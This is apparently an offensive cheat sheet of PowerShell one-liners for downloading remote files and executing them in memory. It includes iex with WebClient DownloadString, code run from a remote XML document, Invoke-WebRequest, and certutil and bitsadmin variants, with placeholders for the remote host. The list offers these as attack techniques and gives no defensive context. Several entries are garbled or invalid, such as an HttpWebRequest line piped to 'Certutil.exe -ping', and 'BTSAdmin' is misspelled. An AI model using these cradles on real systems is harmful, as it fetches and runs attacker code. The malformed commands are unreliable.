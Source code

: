 ## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
#### Download and Execution
* `iex (New-Object Net.WebClient).DownloadFile()`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target
* `var = New-Object System.Xml.XmlDocument;var.Load("<remote_xml_file>");iex var.command.a.execute` - download and executes malicious PowerShell located inside XML document
